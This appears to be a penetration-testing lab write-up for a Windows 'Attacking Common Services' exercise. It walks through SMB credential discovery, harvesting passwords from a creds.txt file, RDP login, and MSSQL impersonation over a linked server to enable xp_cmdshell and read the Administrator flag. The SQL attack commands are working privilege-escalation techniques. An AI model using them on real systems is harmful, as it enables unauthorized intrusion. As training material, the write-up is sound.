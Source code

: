 # Attacking Common Services - Hard

## Engagement Overview

**Target:** Internal server in `inlanefreight.htb`

**Box IP:** `10.129.117.207`

**OS Details:** Windows Server 2019 (Build 17763)

**Hostname:** WIN-HARD

**Description:**
 The host is an internal Windows server used to manage files and working material (e.g., HR/IT forms). It also runs Microsoft SQL Server, whose purpose appeared unclear but ultimately provided a route to escalation. Access vectors included SMB shares with leaked credentials, RDP, and SQL Server impersonation.

------

## Objectives

- Enumerate Windows services and shares
- Identify valid SMB credentials
- Escalate from SMB access to RDP session
- Abuse SQL Server impersonation to gain administrator access
- Capture the system flag

------

## Service Enumeration

### Nmap Results

```bash
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

**Notes:**

- SMB allowed authentication attempts, signing not required.
- SQL Server 2019 accessible, showing linked servers and impersonation potential.
- RDP open and accessible after credentials discovery.

------

## Methodologies

1. **SMB Enumeration & Access**

   - Discovered working credentials with CrackMapExec:

   ```text
   user: simon
   password: liverpool
   ```

   - Enumerated shares with `smbmap` and discovered directories `HR/`, `IT/`, `OPS/`, and `Projects/` under `Home`.
   - Found multiple files including `creds.txt` under `IT/Fiona`.

2. **Credential Harvesting**

   - `creds.txt` yielded multiple valid passwords:

   ```text
   fiona: 48Ns72!bns74@S84NNNSl
   fiona: Kaksd032klasdA#
   ```

3. **RDP Access**

   - Used Fiona’s credentials to log in via RDP, confirming GUI access.

4. **SQL Server Abuse**

   - Within the environment, identified impersonation permissions in MSSQL:

   ```sql
   SELECT distinct b.name
   FROM sys.server_permissions a
   INNER JOIN sys.server_principals b
   ON a.grantor_principal_id = b.principal_id
   WHERE a.permission_name = 'IMPERSONATE';
   ```

   - Pivoted with impersonation of `john` and leveraged a linked server:

   ```sql
   EXECUTE AS LOGIN = 'john';
   EXECUTE('select @@servername, @@version, system_user') AT [LOCAL.TEST.LINKED.SRV];
   ```

5. **Command Execution via xp_cmdshell**

   - Enabled advanced options and `xp_cmdshell` remotely:

   ```sql
   EXECUTE('EXECUTE sp_configure ''show advanced options'', 1; RECONFIGURE; \
           EXECUTE sp_configure ''xp_cmdshell'', 1; RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV];
   ```

   - Executed command to retrieve Administrator’s flag:

   ```sql
   EXECUTE('xp_cmdshell ''more c:\\users\\administrator\\desktop\\flag.txt''') AT [LOCAL.TEST.LINKED.SRV];
   ```

------

## Initial Access – `smb`/`rdp`

**Vulnerability Explanation:**
Weak credentials (`simon:liverpool`) and plaintext passwords in `creds.txt` allowed lateral access across SMB and RDP.

**Penetration:**

- Connected to SMB shares with valid credentials.
- Harvested additional credentials.
- Gained RDP session as `fiona`.

------

## Privilege Escalation – MSSQL Impersonation

**Vulnerability Explanation:**
SQL Server misconfiguration allowed impersonation of other users, including accounts linked to sysadmin privileges on a remote/linked server.

**Result:**
Achieved command execution as Administrator and read the system flag.

------

## Post-Exploitation

Potential follow‑ups if scope expanded:

- Enumerate entire SQL database for sensitive records
- Investigate HR and OPS share contents for PII
- Assess RDP access logging and monitoring gaps

------

## Tools Utilized

- `nmap`
- `crackmapexec`
- `smbmap`
- `hydra`
- `rdp`
- `mssql-cli`

------

## Key Takeaways

- Weak/reused SMB credentials can expose entire Windows environments.
- MSSQL impersonation and linked servers represent dangerous privilege escalation vectors.
- File shares often hold plaintext secrets (creds.txt, notes, etc.) that enable lateral movement.